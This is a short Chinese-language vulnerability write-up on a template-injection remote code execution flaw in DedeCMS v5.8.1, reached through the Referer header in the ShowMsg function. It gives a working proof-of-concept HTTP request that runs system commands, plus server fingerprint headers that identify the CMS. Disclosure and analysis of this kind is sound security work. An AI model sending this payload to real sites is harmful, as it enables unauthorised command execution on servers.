

下载地址:https://github.com/dedecms/DedeCMS/releases/tag/v5.8.1

# 漏洞分析:

在include\common.func.php文件中的ShowMsg函数存在模板注入


`$gourl = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : '';`

从Referer头中取值，然后进行渲染，造成RCE

```php
$tpl = new DedeTemplate();
$tpl->LoadString($msg);
```


# POC

```http
GET /plus/flink.php?dopost=save&c=whoami HTTP/1.1
Host: 10.211.55.3
Referer: <?php "system"($c);die;/*
```

使用了ShowMsg函数,且参数为-1的文件，均可造成RCE




cms特征

```php
header('Server:2G3N3M3N2F2P35');
header('X-Powered-By:3B5655563A4147');
```


# 参考文章:

https://srcincite.io/blog/2021/09/30/chasing-a-dream-pwning-the-biggest-cms-in-china.html

